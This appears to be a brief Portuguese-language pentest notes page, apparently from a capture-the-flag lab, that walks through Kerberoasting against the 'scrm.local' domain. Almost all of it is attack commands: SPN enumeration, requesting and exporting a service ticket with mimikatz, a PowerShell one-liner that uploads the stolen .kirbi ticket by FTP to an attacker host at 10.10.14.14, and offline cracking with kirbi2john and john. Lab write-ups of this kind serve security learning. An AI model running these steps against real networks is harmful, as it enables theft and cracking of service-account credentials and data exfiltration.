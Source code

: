 Kerberoasting
=============

```
setspn -T scrm.local -Q */*
```

Temos que focar no que for contas de serviço que não seja de máquinas, conforme print abaixo:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Usuário de serviço (não é de máquina)</p></figcaption></figure>

```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dc1.scrm.local:1433"
```

Requisitei o ticket

```
klist
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
kerberos::list /export
$client = New-Object System.Net.WebClient;$client.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous");$client.UploadFile("ftp://10.10.14.14/test.kirbi", "C:\temp\1-40a10000-sqlsvc@MSSQLSvc~dc1.scrm.local~1433-SCRM.LOCAL.kirbi")
python -m pyftpdlib --port=21 --write
```

```
python /home/acosta/owncloud/Area_de_trabalho/tools/linux/5-lateral_movement/kerberoast/kirbi2john.py test.kirbi > test.john
john --wordlist=/usr/share/wordlists/rockyou.txt test.john
```



